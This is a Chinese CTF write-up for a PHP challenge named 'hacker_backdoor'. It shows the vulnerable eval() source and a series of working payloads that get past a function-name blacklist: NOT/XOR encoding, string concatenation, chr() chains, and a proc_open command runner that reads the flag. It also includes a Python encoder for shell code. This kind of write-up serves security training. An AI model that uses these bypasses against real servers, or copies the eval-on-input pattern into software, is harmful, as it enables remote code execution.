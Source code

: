 # hacker_backdoor
## 所用知识点：
### 1.正则绕过
### 2.rce函数的替换

源码审计：
```
<?php
error_reporting(0);
if(!isset($_GET['code']) || !isset($_GET['useful'])){
    highlight_file(__file__);
}
$code = $_GET['code'];
$usrful = $_GET['useful'];

//内置函数返回false
function waf($a){
    $dangerous = get_defined_functions();
    array_push($dangerous["internal"], 'eval', 'assert');
    foreach ($dangerous["internal"] as $bad) {
        if(strpos($a,$bad) !== FALSE){
            return False;
            break;
        }
    }
    return True;
}

//文件是否存在
if(file_exists($usrful)){
    if(waf($code)){
//        $code='phpinfo();';
        @eval($code);
    }
    else{
        die("oh,不能输入这些函数哦 :) ");
    }
}

```

发现只要，使用内置函数，就返回false，无法执行代码

### 1.这里一开始想到取反，异或绕过

取反：`?code=(~%8F%97%8F%96%91%99%90)();&useful=index.php`

异或:`?code=(%8F%97%8F%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();&useful=index.php`

在本地测试成功，去到靶机却无法执行，一开始纳闷了好久...原来是因为靶机版本为5.6.4,php7之前不支持($a)();所以无法执行...

p神的文章也有提到：
https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

### 2.然后一位队友的，骚操作是采用代码拼接的方式

payload:`?code=$a='php'.'info';$a();&useful=index.php`

将需要执行的韩式，采用拼接的方式绕过，监测，一开始还真没想到...

这个时候也可以大胆猜测一下eval函数的功能：将字符串以代码的形式，添加到源代码中执行。不得不说这个函数真强大

### 3.得到phpinfo界面查看禁用函数

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/南邮ctf2019/images/34FBDCE7626146C8AC342250C2727D73hacker_backdoor1.png)

rce函数基本都被禁用了，但是发现proc_open还可以用

### 4.构造payload:

proc_open()函数，命令执行方法
```
<?php
$test = "whoami";
$array = array(
    array("pipe", "r"),   //标准输入
    array("pipe", "w"),   //标准输出内容
    array("pipe", "w")    //标准输出错误
);

$fp = proc_open($test, $array, $pipes);   //打开一个进程通道
echo stream_get_contents($pipes[1]);    //为什么是$pipes[1]，因为1是输出内容
proc_close($fp);
```

bypass处理：

```
<?php
$b="p";
$c="ipe";
$test="/readflag";
$g='c'.'h'.'r';
$h=$g(95);
$a=[[$b.$c,"r"], [$b.$c,"w"], [$b.$c,"w"] ];
$aa='p'.'r'.'o'.'c'.$h.'o'.'p'.'e'.'n';
$fp=$aa($test,$a,$p);
$d='stre'.'am'.$h.'ge'.'t'.$h.'c'.'o'.'n'.'t'.'e'.'n'.'t'.'s';
echo $d($p[1]);
?>
```

方法二：

利用chr

```
?code=?%3E%3C?php%20Echo%20Eval(cHr(0x70).cHr(0x68).cHr(0x70).cHr(0x69).cHr(0x6e).cHr(0x66).cHr(0x6f).cHr(0x28).cHr(0x29).cHr(0x3b))?%3E
```

exp:

```
str1 = ""
with open("shell.php", "r") as f:
    # 逐行读取
    code = f.read()
    # print(code)
    for i in code:
        if ord(i)== 10:
            continue
        str1 += ("cHr("+str(hex(ord(i)))+").")
print(str1)

```